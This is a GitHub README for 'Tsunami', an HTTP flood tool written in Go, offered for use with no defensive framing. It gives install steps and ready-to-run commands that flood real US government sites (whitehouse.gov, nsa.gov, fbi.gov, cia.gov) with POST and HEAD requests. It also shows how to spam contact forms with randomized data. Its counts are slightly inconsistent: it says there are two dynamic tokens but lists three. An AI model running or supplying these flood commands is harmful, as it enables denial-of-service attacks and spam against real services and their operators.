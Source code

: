 # Tsunami
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__
- Realistic User Agent randomization
- Dynamic payloads

## Table of Contents
1. [Basic Usage](#basic-usage)
2. [Help](#help)
3. [Quick Install](#quick-install)
4. [Examples](#examples)
   - [Low Volume POST Flood Lasting Forever](#low-volume-post-flood-lasting-forever)
   - [High Volume HEAD Flood Lasting For 10 Minutes](#high-volume-head-flood-lasting-for-10-minutes)
   - [Contact Us Form Spam](#contact-us-form-spam)
5. [Dynamic Tokens](#dynamic-tokens)
6. [Todo](#todo)

__This project is huge WIP__

## Basic Usage
```bash
./tsunami http://whitehouse.gov --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick Install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Dynamic Tokens
Dynamic tokens allows you to implement elements of randomness in your requests. There are currently 2 tokens:
- {D} - A random digit
- {l} - A random lowercase letter
- {L} - A random uppercase letter

On every request, every token will be replaced.

Example command:
```bash
./tsunami -w 1 http://nsa.gov/{L}{L}{l}{D}
```
The requests will use URLs similar to these:

```
http://nsa.gov/AYz3
http://nsa.gov/BCv6
http://nsa.gov/NFz7
http://nsa.gov/IPa1
```

## Examples
### Low Volume POST Flood Lasting Forever
```bash
./tsunami -w 2 "https://fbi.gov/login" POST "username=Ammar&password=g1thuB123"
```
### High Volume HEAD Flood Lasting For 10 Minutes
```bash
./tsunami -w 100 -s 600 "https://cia.gov/" HEAD
```
### Contact Us Form Spam
```bash
./tsunami -w 1 "https://ammar.io/contact-us" POST "email={l}{l}{l}{l}{l}{l}{l}@gmail.com&message=spamspamspamspam"
```
## Todo
 - Dynamic tokens (E.g {RANDOM_STRING}, {RANDOM_INT})
 - Custom headers
 - ???